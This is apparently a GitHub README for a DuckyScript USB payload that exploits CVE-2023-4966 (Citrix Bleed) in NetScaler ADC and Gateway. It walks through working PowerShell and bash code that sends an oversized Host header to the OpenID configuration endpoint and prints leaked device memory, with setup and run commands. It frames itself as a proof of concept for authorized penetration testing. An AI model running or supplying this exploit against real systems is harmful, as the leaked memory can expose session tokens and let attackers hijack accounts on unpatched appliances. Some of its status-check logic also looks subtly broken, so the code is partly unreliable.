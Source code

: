 # Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966

This payload sends an HTTP request to a remote server using the `curl` command. If the request succeeds, it means the exploit was successful. Conversely, if the request fails, it indicates that the target has resisted the attack.

This payload is a Proof of Concept (POC) based on DuckyScript and is intended for use only in authorized penetration testing. CVE-2023-4966 [[1](#sources)] has been resolved, and I have decided to release this payload only now to minimize the risk of it being used inappropriately. Please use this payload exclusively when you are fully aware of what you are doing and have obtained explicit authorization from the target.

**Category**: incident-response

## Index

- [Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966](#exploit-citrix-netscaler-adc-and-gateway-through-cve-2023-4966)
	- [CVE-2023-4966](#cve-2023-4966)
		- [Summary](#summary)
		- [Impacted Products](#impacted-products)
  - [Settings](#settings)
	- [DuckyScript Extensions Used](#duckyScript-extensions-used)
	- [Payload Description Windows](#payload-description-windows)
	- [Payload Description Linux](#payload-description-linux)
  - [Script.sh](#script-sh)
	- [Sources](#sources)
	- [Credits](#credits)

## CVE-2023-4966

Multiple vulnerabilities have been discovered in NetScaler ADC (formerly Citrix ADC) and NetScaler Gateway (formerly Citrix Gateway).

### Summary

NetScaler ADC and NetScaler Gateway contain unauthenticated buffer-related vulnerabilities mentioned below 

### Impacted Products

The following supported versions of NetScaler ADC and NetScaler Gateway are affected by the vulnerabilities: 

    - NetScaler ADC and NetScaler Gateway 14.1 before 14.1-8.50
    - NetScaler ADC and NetScaler Gateway 13.1 before 13.1-49.15
    - NetScaler ADC and NetScaler Gateway 13.0 before 13.0-92.19
    - NetScaler ADC 13.1-FIPS before 13.1-37.164
    - NetScaler ADC 12.1-FIPS before 12.1-55.300
    - NetScaler ADC 12.1-NDcPP before 12.1-55.300

***Note**: NetScaler ADC and NetScaler Gateway version 12.1 is now End-of-Life (EOL) and is vulnerable.*

This bulletin only applies to customer-managed NetScaler ADC and NetScaler Gateway products. Customers using Citrix-managed cloud services or Citrix-managed Adaptive Authentication do not need to take any action.

![](./assets/1.png)

***Source**: The information was acquired from the official website of [support.citrix.com](#sources).*

## Settings

The sole configuration parameter that requires modification is the hostname, which represents the IP address (without protocol) of the target Citrix ADC / Gateway machine, such as 192.168.1.200. To configure this setting, you need to edit the "payload.txt" file to specify the desired address.

```DuckyScript
* REM Replace #HOSTNAME with your target, so put here the Citrix ADC / Gateway target, excluding the protocol (e.g. 192.168.1.200)
QUACK STRING $uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

## Payload Description Windows

In this line, a variable named `$header_value` is created, containing a string of 24576 'a' characters. This variable represents the value to be used in the HTTP header.

```powershell
$header_value = 'a' * 24576
```

Here, all newline characters ("\n") are removed from the string stored in `$header_value`. This is done to ensure that the string doesn't contain any line break characters.

```powershell
$header_value = $header_value -replace "\n", ""
```

A variable `$headers` is created, which holds an HTTP header formatted as a string. This header will be used in the subsequent HTTP request.

```powershell
$headers = "-H 'Host:$header_value'"
```

Here, a variable `$headers` is created as a hashtable containing the HTTP header. In this case, only the "Host" header is used, with the value from `$header_value`.

```powershell
$headers = @{ 'Host' = $header_value }
```

This line defines the variable `$uri`, which contains the target URL for the HTTP request. Note that "#HOSTNAME" is a DuckyScript variable that should be replaced with the actual value before executing the script (see the [Settings](#settings) section).

```powershell
$uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

Here, the HTTP request to the specified URL is executed using the GET method and with the headers defined in the `$headers` variable. The result of the request is stored in the `$response` variable.

```powershell
$response = Invoke-RestMethod -Uri $uri -Headers $headers -Method GET -TimeoutSec 10
```

This `if` statement checks if the first three characters of the HTTP response in the `$response` variable are equal to "200," indicating a successful HTTP response.

```powershell
if ($response.Substring(0, 3) -eq "200")
```

If the preceding condition is true, some messages are printed to indicate the beginning of the output.

```powershell
Write-Host "--- Dumped memory ---"
$response.Substring(131050)
Write-Host "--- End ---"
```

If the initial condition of the `if` statement is not met, a message is printed, indicating that the machine is not vulnerable.

```powershell
Write-Host "Could not dump memory"
```

## Payload Description Linux [_Go to the GNU-Linux version_](https://github.com/aleff-github/my-flipper-shits/tree/main/GNU-Linux/Incident_Response/Exploit_Citrix_NetScaler_ADC_and_Gateway_through_CVE-2023-4966)

This line sets the `header_value` variable to a string containing 24,576 'a' characters. It uses the `yes` command to repeatedly output 'a' and `head` to limit it to 24,576 lines. The `tr` command is used to remove any newline characters, resulting in a long string of 'a's.

```bash
header_value=$(yes a | head -n 24576 | tr -d '\n')
```

Here, the `headers` variable is constructed with the `-H` option for the cURL command. It sets the 'Host' header to the previously generated `header_value`.

```bash
headers="-H 'Host:$header_value'"
```
This line uses cURL to send a request to the specified URL with the constructed `headers`. The `-s` flag suppresses progress meter and error messages, while the `-k` flag allows cURL to perform an insecure SSL connection. The `--connect-timeout 10` flag sets a connection timeout of 10 seconds. The response is stored in the `response` variable.

```bash
response=$(curl -s -k -H "$headers" "https://$hostname/oauth/idp/.well-known/openid-configuration" --connect-timeout 10)
```

In this block, it checks if the exit status of the cURL command is 0 (indicating a successful request) and if the first three characters of the response are "200" (HTTP success code). If both conditions are met, it prints `--- Dumped memory ---`, followed by a portion of the response starting from character 131,051, and then indicates that the hostname is vulnerable. If the conditions are not met, it prints `Could not dump memory`.

```bash
if [ $? -eq 0 ] && [ "$(echo $response | cut -c 1-3)" == "200" ]; then
    echo "--- Dumped memory ---"
    echo "$response" | cut -c 131051-
    echo "The #HOSTNAME is vulnerable!"
    echo "---      End      ---"
else
    echo "Could not dump memory"
fi
```

## Script sh

The script.sh script accepts one parameter, which should be the target hostname without the application of a protocol (e.g., `192.168.1.200`). It uses this parameter to perform a specific action in the exploit.

Example Execution:

```shell
./script.sh 192.168.1.200
```

Before running the script, you might need to grant execute permissions to the file, as mentioned. You can do this with the following command:

```shell
sudo chmod +x script.sh
```

After assigning execute permissions, the above command allows the user to run the script without having to specify the sh command before the script's name.

## Sources

- [1] Official source of information acquisition: https://support.citrix.com/article/CTX579459/netscaler-adc-and-netscaler-gateway-security-bulletin-for-cve20234966-and-cve20234967
- [2] Detect Rady: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [3] Passive Windows Detect: https://github.com/hak5/usbrubberducky-payloads/blob/master/payloads/extensions/passive_windows_detect.txt
- [4] Red Hot Cyber post: https://www.redhotcyber.com/post/e-pubblico-lexploit-per-il-bug-critico-di-citrix-netscaler-adc-e-gateway-scopriamo-come-funziona/

## Credits

<h2 align="center"> Aleff</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>